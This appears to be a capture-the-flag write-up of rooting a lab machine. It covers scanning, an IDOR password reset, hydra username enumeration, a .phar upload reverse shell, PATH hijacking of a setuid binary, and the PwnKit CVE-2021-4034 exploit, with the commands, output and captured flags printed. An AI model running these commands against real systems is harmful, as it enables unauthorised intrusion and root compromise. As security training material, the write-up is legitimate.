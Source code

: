 # CTF 03
```bash
IP=192.168.10.16
```

## nmap

```bash
$ nmap -sV -Pn $IP -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-13 17:55 CEST
Nmap scan report for 192.168.10.16
Host is up (0.0043s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 17.09 seconds

```

## gobuster

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.16
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 17:56:24 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/config               (Status: 301) [Size: 315] [--> http://192.168.10.16/config/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.10.16/css/]   
/index.php            (Status: 200) [Size: 810]                                   
/js                   (Status: 301) [Size: 311] [--> http://192.168.10.16/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/upload               (Status: 301) [Size: 315] [--> http://192.168.10.16/upload/]
                                                                                  
===============================================================
2022/06/13 17:56:26 Finished
===============================================================
```

With "gobuster" we found interesting the discovery of the "upload" directory which opens the possibility to maybe upload a file to the machine.

## http
`$IP:80`
apache server with php.

Open in browser, register an account.
```
username: pascal
email: pascal@bosym.de
password: pascal
```

### Change password

Using a authenticated account and burb, we manage to change the password of other userids by changing the id in the post request using burp.

```
POST /dashboard.php?id=3 HTTP/1.1
Host: 192.168.10.16

password=root&id=1
```

Changed the password of user 1 and 2, since my account is 3.

Now find the usernames using bruteforce by creating new users. if the username exists the registration will fail:

```bash
$ hydra -L /usr/share/wordlists/simple-users.txt -p root $IP http-post-form "/register.php:username=^USER^&password=^USER^&email=^USER^%40bosym.de:Register Successful" -V
[80][http-post-form] host: 192.168.10.16   login: admin   password: root
[80][http-post-form] host: 192.168.10.16   login: admin   password: root
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-14 12:54:39
```


With the output the username shoulb be either `admin` or `GUEST`.


Then, we login with `admin:root` and discovered that you can upload a file to the server.

## Reverse shell
> Sorry , Allow Ex : jpg,png,gif

It works with [`.phar`](shell.phar).

`nc -lvp 1337`

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/
$ ls -lah /home
total 16K
drwxr-xr-x  4 root     root     4.0K Jul 16  2021 .
drwxr-xr-x 20 root     root     4.0K Jul 15  2021 ..
drwxr-xr-x  4 darkhole darkhole 4.0K Jul 17  2021 darkhole
drwxrwxrwx  5 john     john     4.0K May 15 15:40 john

$ ls -lah /home/john
total 76K
drwxrwxrwx 5 john     john     4.0K Jun 14 15:32 .
drwxr-xr-x 4 root     root     4.0K Jul 16  2021 ..
-rw------- 1 john     john     2.0K Jun 14 14:40 .bash_history
-rw-r--r-- 1 john     john      220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john     john     3.7K Jul 16  2021 .bashrc
drwx------ 2 john     john     4.0K Jul 17  2021 .cache
drwxrwxr-x 3 john     john     4.0K Jul 17  2021 .local
-rw------- 1 john     john       37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john     john      807 Jul 16  2021 .profile
drwxrwx--- 2 john     www-data 4.0K Jun 14 15:15 .ssh
-rwxrwx--- 1 john     john       33 Jun 14 15:06 file.py
-rwxrwx--- 1 john     john        8 Jul 17  2021 password
-rwsr-xr-x 1 root     root      17K Jul 17  2021 toto
-rw-rw---- 1 john     john       44 May 15 15:36 user.txt

```

We found there is a [`toto`](toto) binary file. Using [`objdump -d toto > disassembly.asm`](disassemly.asm) and `strings toto`, we can see, that the calls `setgid`, `setuid` and `system` are being used. When executed the output is:

```bash
$ /home/john/toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

So it sets the uid for the `system('id')` command. From the [Linux man page](https://man7.org/linux/man-pages/man3/system.3.html) for system under caveats it says:

> Do not use system() from a privileged program (a set-user-ID or
> set-group-ID program, or a program with capabilities) because
> strange values for some environment variables might be used to
> subvert system integrity.  For example, PATH could be manipulated
> so that an arbitrary program is executed with privilege.

so we change the path variable, create a "fake" `id`, execute it and change the path back.

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

$ echo "#!/bin/bash
/bin/bash -i" > ./id

$ chmod +x id

$ PATH=/home/john ./toto

john@darkhole:/home/john$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

john@darkhole:/home/john$ cat password
root123

john@darkhole:/home/john$ cat user.txt
cyberctfd{0yjA5vhJWYkTXX2UALbw8Q7yMKqASU73}
```

Now we can login via ssh with `john:root123` using `ssh john@$IP` to close the reverse shell.


## Privilege escalation

With "john" as user, run [linpeas](https://github.com/carlospolop/PEASS-ng) ([Output](linpeas.txt)) to search for ways to escalate privilege.

The logs show a possibility for CVE-2021-4034.

Using the [PoC for PwnKit](https://github.com/arthepsy/CVE-2021-4034), compile and run it.

```bash
john@darkhole:~$ wget https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c
2022-06-14 16:24:48 (116 MB/s) - ‘cve-2021-4034-poc.c’ saved [1267/1267]

john@darkhole:~$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc

john@darkhole:~$ ./cve-2021-4034-poc 
# id
uid=0(root) gid=0(root) groups=0(root),1001(john)

# ls -lah /root
total 44K
drwx------  6 root root 4.0K Jul 17  2021 .
drwxr-xr-x 20 root root 4.0K Jul 15  2021 ..
-rw-------  1 root root 3.0K Jun 14 15:29 .bash_history
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwx------  2 root root 4.0K Jul 17  2021 .cache
drwxr-xr-x  3 root root 4.0K Jul 17  2021 .local
-rw-------  1 root root   18 Jul 15  2021 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4.0K Jul 15  2021 .ssh
-rw-r--r--  1 root root   44 May 15 15:37 root.txt
drwxr-xr-x  3 root root 4.0K Jul 15  2021 snap

# cat /root/root.txt
cyberctfd{lBCz8J3tRZgCqUY3O8QQygKuIzURuLql}
```

## Flags

User: `cyberctfd{0yjA5vhJWYkTXX2UALbw8Q7yMKqASU73}`

Root: `cyberctfd{lBCz8J3tRZgCqUY3O8QQygKuIzURuLql}`
